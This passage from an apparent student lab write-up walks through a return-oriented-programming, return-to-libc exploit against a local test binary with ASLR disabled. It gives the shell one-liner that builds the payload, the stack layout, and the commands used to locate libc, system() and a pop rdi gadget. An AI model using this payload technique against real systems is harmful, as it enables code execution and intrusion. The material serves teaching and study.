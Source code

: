 When the instruction pointer reaches the RET in the gadget, the instruction pointer jumps to where the RSP is (0x7ffff7a1d000+0x44320). Remember that the value at RSP is the location of the system() libc function, so the instruction pointer will jump to there and call it using RDI as a parameter ("/bin/sh").
```
vagrant@precise64:~/480-project2$ (echo -n /bin/sh | xxd -p; printf %0130d 0; printf %016x $((0x7ffff7a1d000+0x22a12)) | tac -rs..; printf %016x 0x7fffffffe5c0 | tac -rs..; printf %016x $((0x7ffff7a1d000+0x44320)) | tac -rs..) | xxd -r -p | setarch `arch` -R ./victim
0x7fffffffe5c0
What's your name?
Hello, /bin/sh!

Segmentation fault (core dumped)
```

Unfortunately, this solution doesn't work. At the top of the tutorial, it's mentioned that in newer versions of Linux the stack is organized differently. From here on, I am following the tutorial from https://github.com/finallyjustice/security/blob/master/rop/demo1/README.txt:

For this next part, I moved to Ubunutu 16.04.1 LTS.

Please note, the new stack layout is:

#### Stack Layout ####
    string /bin/sh
----------------------
    addr of system()
----------------------
    addr of /bin/sh
----------------------
    addr of pop rdi; ret
----------------------
     EBP Register
----------------------
     64 bytes buf
######################

In one terminal:

```
vagrant@vagrant-ubuntu-trusty-64:~/csc480-project2$ ./victim
0x7fffffffe5a0
What's your name?
```

In another terminal:
```
root@vagrant-ubuntu-trusty-64:/home/vagrant/csc480-project2# pid=`ps -C victim -o pid --no-headers | tr -d ' '`
root@vagrant-ubuntu-trusty-64:/home/vagrant/csc480-project2# grep libc /proc/$pid/maps
7ffff7a15000-7ffff7bcf000 r-xp 00000000 08:01 2205                       /lib/x86_64-linux-gnu/libc-2.19.so
7ffff7bcf000-7ffff7dcf000 ---p 001ba000 08:01 2205                       /lib/x86_64-linux-gnu/libc-2.19.so
7ffff7dcf000-7ffff7dd3000 r--p 001ba000 08:01 2205                       /lib/x86_64-linux-gnu/libc-2.19.so
7ffff7dd3000-7ffff7dd5000 rw-p 001be000 08:01 2205                       /lib/x86_64-linux-gnu/libc-2.19.so
root@vagrant-ubuntu-trusty-64:/home/vagrant/csc480-project2#
root@vagrant-ubuntu-trusty-64:/home/vagrant/csc480-project2# nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep '\<system\>'
0000000000046590 W system
root@vagrant-ubuntu-trusty-64:/home/vagrant/csc480-project2#  xxd -c1 -p /lib/x86_64-linux-gnu/libc.so.6 | grep -n -B1 c3 |
> grep 5f -m1 | awk '{printf"%x\n",$1-1}'
22b9a
```